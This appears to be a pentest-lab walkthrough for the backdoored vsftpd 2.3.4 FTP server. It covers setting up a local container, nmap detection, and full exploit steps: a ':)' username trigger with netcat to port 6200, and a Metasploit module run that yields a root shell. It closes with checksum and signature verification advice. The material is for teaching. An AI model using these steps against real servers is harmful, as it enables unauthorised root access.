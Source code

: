 ## Vsftpd Backdoor

### Background

[Vsftpd](https://security.appspot.com/vsftpd.html) is a widely used FTP server. Despite the fact that [SFTP](https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol) has become that standard, there are still a ton of FTP servers out in the wild. Back in July of 2011, it was discovered that vsftpd 2.3.4 from the master site was patched with a backdoor.

Even though the sha256sum:

```
2a4bb16562e0d594c37b4dd3b426cb012aa8457151d4718a5abd226cef9be3a5 vsftpd-2.3.4.tar.gz
```

and check the gpg signature: 

```
$ gpg ./vsftpd-2.3.4.tar.gz.asc
gpg: Signature made Tue 15 Feb 2011 02:38:11 PM PST using DSA key ID 3C0E751C
gpg: BAD signature from "Chris Evans <chris@scary.beasts.org>"
```

are invalid, this version still spread across the internet.

How do you use this back door? Simply append a smiley face to the end of your username:)

### Setup

Start the penkit vsftpd server:

```bash
$ penkit start vsftpd:2.3.4
cc30859095aaa6780d6f87cfa43d5b2cad09d76b480d5c3b5619aa468296526d
```

Verify that server is running:

```bash
$ penkit ps
# or
$ penkit ping vsftpd
```

### Discovery

We will use `penkit nmap` to see if our target is vulnerable:

```bash
$ penkit nmap -sV vsftpd

Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-18 18:40 UTC
Nmap scan report for vsftpd (172.23.0.2)
Host is up (0.000012s latency).
rDNS record for 172.23.0.2: vsftpd.penkit
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:17:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.94 seconds
```

If the version is `vsftpd 2.3.4` then there is a chance that this particular instance of vsftpd is patched with the backdoor.


### Exploit

You can do this exploit manually:

```bash
$ penkit netcat vsftpd 21
220 (vsFTPd 2.3.4)
# Note, you will not have a bash prompt. You must type 'user anyuser:)' 
user penny:)
331 Please specify the password.
# Same here. Type 'pass anypass'
pass thepenguin
```

It hangs, so open another terminal, and:

```bash
$ penkit netcat vsftpd 6200
# Note, you will not have a bash prompt. Just start typing commands.
hostname
vsftpd

whoami
root

exit
```

Or you can use just use metasploit:

```bash
$ penkit metasploit
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > set RHOST vsftpd
msf exploit(vsftpd_234_backdoor) > run

[*] vsftpd:21 - Banner: 220 (vsFTPd 2.3.4)
[*] vsftpd:21 - USER: 331 Please specify the password.
[+] vsftpd:21 - Backdoor service has been spawned, handling...
[+] vsftpd:21 - UID: uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[*] Found shell.
[*] Command shell session 1 opened (172.23.0.3:51443 -> 172.23.0.2:6200) at 2017-03-15 16:04:57 +0000

# Note, you will not have a bash prompt. Just start typing commands.
whoami
root
```

### Summary

This is a pretty silly backdoor but it goes to show you that unless you are vigilant about verifying that you have genuine software, you are dramatically increasing your risk. While the person who developed this backdoor was probably trolling, this sort of attack could obviously be much sneakier.

You can mitigate this risk by:

- Always checking your checksums
- Always verifying your signatures

More information can be found here:

- https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor
